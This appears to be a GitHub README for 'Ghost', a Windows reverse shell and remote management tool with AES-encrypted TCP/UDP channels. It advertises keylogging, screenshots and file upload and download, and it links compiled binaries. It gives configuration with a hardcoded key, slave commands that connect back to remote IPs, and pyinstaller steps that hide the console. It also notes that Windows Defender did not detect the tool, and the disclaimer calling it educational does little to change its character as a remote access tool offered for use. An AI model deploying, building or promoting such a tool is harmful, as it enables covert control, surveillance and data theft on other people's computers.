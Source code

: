 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 


Some of its features are
-------------------------

-Sends commands to cmd and powershell,

-Creates or extracts zip files

-Downloads files from the Internet,

-Supports file upload and download,

-Creates keylogger program,

-Takes a screenshot

-Communication between server and client is AES encrypted.

The compiled version of the program can be downloaded from the links below.
--------------------------------------------------------------------------
1) Compiled without using the "--noconsole" command 
  
   ghost_v4_showconsole.rar ==> zip password: "ghost_v4"

   https://drive.google.com/file/d/1d_8ghw7vlULQ26KI1hbJaTmT_d3QQY8W/view?usp=sharing
  

2) Compiled using the "--noconsole" command

  ghost_v4_noconsole.rar ==> zip password: "ghost_v4"
  
  https://drive.google.com/file/d/1Oxeva5fwwTeRRJLv_7o12Lby4AXeFnEq/view?usp=sharing
  


Requirements
-------------------
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

>> pip install pycryptodome

>> pip install  requests

>> pip install pyautogui

>> pip install pyinstaller

"pyinstaller" will be used to make the code one piece executable


Settings
--------------

>> (1) master.py

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
    
    
   
   >> (2) slave.py
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
    
  
>>Except for encryption, these values can be changed with initial parameters if desired.

master.exe -h      ==> Shows help parameters.

slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling

Example:

master -udp -c:cp857  -t:00 8080             ==> (8080 port)

master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)

master 7272                                  ==> (7272 port)

slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port)

slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 port)

slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


compilation
------------

(show console for slave.py)

>>pyinstaller --onefile --icon=master.ico master.py

>>pyinstaller --onefile --icon=slave.ico slave.py

or (hide console for slave.py)

>>pyinstaller --onefile --icon=master.ico master.py

>>pyinstaller --onefile --noconsole --icon=slave.ico slave.py


Commands for master.py
-----------------------

>> commands      ==> Shows commands very briefly.

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


>> help          ==> Shows commands in detail.

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
-------
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some images of the working of the program
------------------------------------

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


[7]

![13](https://user-images.githubusercontent.com/71177413/162613543-95a90c3f-f4c6-434b-b05e-a91769ee9096.JPG)


[8]

![14](https://user-images.githubusercontent.com/71177413/162613551-a6027fef-7673-46a5-933f-251f4f26efcb.JPG)


Windows Defender
-----------------
As of 10/04/2022, It is not caught by the Windows Defender program. Over time this will change.


legal warning
------------------
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

